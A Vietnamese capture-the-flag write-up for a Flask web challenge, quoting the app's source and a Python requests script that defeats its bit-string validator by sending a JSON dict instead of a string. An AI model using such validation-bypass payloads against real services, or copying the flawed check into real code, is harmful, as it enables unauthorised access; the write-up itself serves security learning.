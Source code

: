 # Sanity Check

## Description:    
Chào mừng bạn ghé thăm website “vibe coding” của mình! Thực ra mình dựng nó chỉ để test xem server cần oxi không thôi, nhưng ở đâu đó vẫn có vài lỗi nho nhỏ đang ẩn mình. Liệu bạn có tìm ra chúng không?

## Phân tích:    
Ta phân tích 1 chút cách hoạt động của trang web với đoạn code ở ```app.py```:    

-Đầu tiên ta sẽ gửi 1 request ```POST``` với ```username```, sau đó trang web sẽ tự lưu file bằng hàm ```save_to_file()``` với tên là username vừa nhập với data là 512 số 0 và redirect về ```/dashboard```:   
```python
def save_to_file(string, filename):
    """Save data to a file"""
    with open(filename, "w", encoding="utf-8") as file:
        file.write(str(string))

def get_user_filename():
    """Get user filename from session"""
    return 'user/'+os.path.basename(session.get('username'))+'.txt'

@app.route('/', methods=['GET','POST'])
def index():
    os.makedirs("user", exist_ok=True)
    if request.method == 'POST':
        session['username'] = request.form['username']
        save_to_file(default_data, get_user_filename())
        return redirect(url_for('dashboard'))
    return render_template('index.html')
```

-Sau đó, ```/update```, thực hiện đọc data từ request POST, kiểm tra với hàm ```is_valid_input()``` nếu thỏa mãn thì thực hiện lưu data vào file của user với hàm ```save_to_file()``` đồng thời trả về 1 ```JSON format``` có dạng: ```{"new_state":"...","status":"updated"}```


```python
def is_valid_input(input):
    """Check if input is valid or not"""
    if input == '' or len(input) != NUMBER_OF_BITS:
        return False
    try:
        for char in input:
            if int(char) != 0 and int(char) != 1:
                return False
    except ValueError:
        return False
    return True

@app.route('/update', methods=['POST'])
@is_User_Exist
def update():
    try:
        data = request.json
        if(not is_valid_input(data['data'])):
            return jsonify({'error':'Invalid input'})
        save_to_file(data['data'], get_user_filename())
        return jsonify({'status': 'updated', 'new_state': data['data']})
    except Exception as e:
        return jsonify({'error':e})
```

-```/get_flag``` thực hiện đọc data từ file của user hiện tại và sẽ đưa ra flag nếu như có chuỗi ```Holactf``` ở trong đó thì trả về flag.

```python
@app.route('/get_flag', methods=['GET'])
@is_User_Exist
def get_flag():
    data=read_file(get_user_filename())
    response = FLAG if "Holactf" in data else "No :v"
    return jsonify({'flag': response})
```

==>Vậy ta chỉ cần làm cho file chứa ```Holactf``` là có thể lấy được flag, nhưng cùng phân tích về hàm ```is_valid_input()``` một chút:    

```python
NUMBER_OF_BITS = 32*16
def is_valid_input(input):
    """Check if input is valid or not"""
    if input == '' or len(input) != NUMBER_OF_BITS:
        return False
    try:
        for char in input:
            if int(char) != 0 and int(char) != 1:
                return False
    except ValueError:
        return False
    return True
```

-Hàm ```is_valid_input()``` đầu tiên sẽ kiểm tra độ dài của chuỗi mình nhập vào, nếu khác 32*16=512 thì nó return False.    
-->Sau đó hàm sử dụng 1 vòng for, ép kiểu từng kí tự trong đó và check xem có bằng 0 hoặc 1 không. 
--> Nếu tất cả thỏa mãn thì return True tức là tất cả các kí tự trong input đều phải bằng 0 hoặc 1

-Như vậy, nếu ta chèn trực tiếp chuỗi ```...Holactf...``` vào trong data để gửi request đi sẽ bị hàm valid chặn ngay.    

-Vì thế mình có nghĩ đến kiểu ```key-value``` (Dict) vì khi đi qua vòng for, python sẽ chỉ kiểm tra các ```key``` chứ không xét tới ```value```, đồng thời độ dài của dict là tổng các cặp ```key-value``` trong nó. Kiểm chứng:

![alt text](check_dict.png)

==>Vậy ta sẽ viết ```"Holactf"``` làm value của dict, ta có script sau:    
```python
import requests
url="http://172.18.49.27:5000/"
s = requests.Session()
data={
    "username": "proochicken"
}
login = s.post(url, data=data)

payload={}

for i in range(1, 512):
    payload["0"*(i+1)] = "proochicken"
payload["1"] = "Holactf"

endpoint = "update"
res = s.post(url+endpoint, json={"data":payload})

endpoint = "get_flag"
res = s.get(url+endpoint)
print(res.json())
```

